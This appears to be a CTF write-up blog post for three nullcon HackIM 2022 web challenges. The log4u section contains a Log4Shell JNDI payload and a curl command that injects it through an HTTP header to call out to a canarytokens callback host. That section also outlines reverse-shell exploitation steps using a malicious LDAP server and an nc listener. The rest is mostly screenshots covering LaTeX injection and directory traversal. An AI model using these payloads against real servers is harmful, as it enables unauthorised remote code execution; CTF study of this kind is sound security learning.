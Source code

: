 ```yaml
---
layout: single
title: nullcon HackIM 2022
excerpt: nullcon HackIM 2022 Web Writeups
date: 2022-4-11
classes: wide
header:
  teaser: 
  teaser_home_page: false
  icon:
categories:
  - ctf
  - web
tags:  
  - nullcon HackIM 2022
  - CVE-2021-44228
  - latex hacking
  - directory traversal
---
```




| CTFTime Place | Points | Team |
| --- | --- | --- |
| [30](https://ctftime.org/event/1594/) | 912.000 | Solo - trelosgamiolis |


# 0x1 log4u
### Challenge Description
```A teacher once told me to "never log things you can't trust...", but it's such a nice business opportunity, so I couldn't resist.```


![b1a57c3f-71e1-4bbf-b299-717490b428fd](https://user-images.githubusercontent.com/45040001/162817938-341792b4-52b0-4d0b-8a90-cc8598d2b0d6.png)


## Identify log4shell vulnerability by triggering a DNS query
"The simplest way to detect if a remote endpoint is vulnerable is to trigger a DNS query. As explained above, the exploit will cause the vulnerable server to attempt to fetch some remote code. By using the address of a free online DNS logging tool in the exploit string, we can detect when the vulnerability is triggered."

![image](https://user-images.githubusercontent.com/45040001/162826021-f43f8f75-bd20-44c0-be68-52378c202bb3.png)
### Generated log4shell token:
```java
${jndi:ldap://x${hostName}.L4J.z5wbevl1c0v3t8gxs856c96m3.canarytokens.com/a}
```

"CanaryTokens.org is an Open Source web app for this purpose that even generates the exploit string automatically and sends an email notification when the DNS is queried. Select Log4Shell from the drop-down menu. Then, embed the string in a request field that you expect the server to log. This could be in anything from a form input to an HTTP header. In our example above, the X-Api-Version header was being logged. This request should trigger it:"

```bash
curl $URL -H 'X-Api-Version: ${jndi:ldap://x${hostName}.L4J.z5wbevl1c0v3t8gxs856c96m3.canarytokens.com/a}'
```
![Screenshot_2022-04-08_21_17_11](https://user-images.githubusercontent.com/45040001/162826208-c584bd56-8411-4d8e-944e-71bc5925fd36.png)

## POC
[log4j shell poc](https://github.com/kozmer/log4j-shell-poc)

## Exploit Steps
- Generate a reverse shell java class(just modify the poc for forward attack)
- Upload the reverse shell java class in HTTP Server 
- Start malicious ldap server giving the HTTP Server URL for redirecting the victim
- Start nc listener for reverse shell

## Upload reverse shell 
![Screenshot_2022-04-08_23_47_51](https://user-images.githubusercontent.com/45040001/162830955-a74283af-35c7-454e-8a61-dd7534a3ff69.png)

## Final flag
![flag](https://user-images.githubusercontent.com/45040001/162826580-8d33dcae-e97f-4cdc-9679-749646111c9b.png)


# 0x2 texnology

[POC](https://0day.work/hacking-with-latex/)

![Screenshot 2022-04-09 040948](https://user-images.githubusercontent.com/45040001/162831563-36117819-1344-4196-afcc-3200b2cb6a43.png)
![flag](https://user-images.githubusercontent.com/45040001/162831557-7e81bc96-5c76-4b23-ae58-c2057730f618.png)

# 0x3 fil3serv3r

![path_escape](https://user-images.githubusercontent.com/45040001/162831826-38411b88-b19b-4550-b6ab-c218a34e8b10.png)

![flag](https://user-images.githubusercontent.com/45040001/162831828-1529c4d4-b02c-455e-9b7d-d5c0ccf095c2.png)


